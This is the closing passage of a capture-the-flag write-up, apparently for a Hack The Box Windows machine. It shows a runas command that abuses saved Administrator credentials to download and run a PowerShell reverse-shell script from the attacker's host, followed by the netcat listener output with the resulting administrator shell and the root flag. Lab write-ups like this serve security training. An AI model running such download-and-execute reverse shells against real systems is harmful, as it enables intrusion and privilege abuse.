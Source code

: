 Make sure to run a listener:
```
┌──(kali㉿kali)-[~/Desktop]
└─$ sudo nc -nlvp 443                                                                                                                                                                      
listening on [any] 443 ...
```

And in our telnet shell run this command: ```runas /user:ACCESS\Administrator /savecred "powershell iex(new-object net.webclient).downloadstring('http://10.10.14.27:8000/Invoke-PowerShellTcp.ps1')"```

You will get a reverse shell as ```administrator```:

```
┌──(kali㉿kali)-[~/Desktop]
└─$ sudo nc -nlvp 443                                                                                                                                                                                                                  1 ⨯
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.98] 49158
Windows PowerShell running as user Administrator on ACCESS
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>whoami
access\administrator
```

Cat your root flag :)

```
PS C:\Users\Administrator\Desktop> type root.txt
6e1586cc7ab230a8d297e8f933d904cf
```

Thank you for reading, and you can find me here on twitter: https://twitter.com/electronicbots
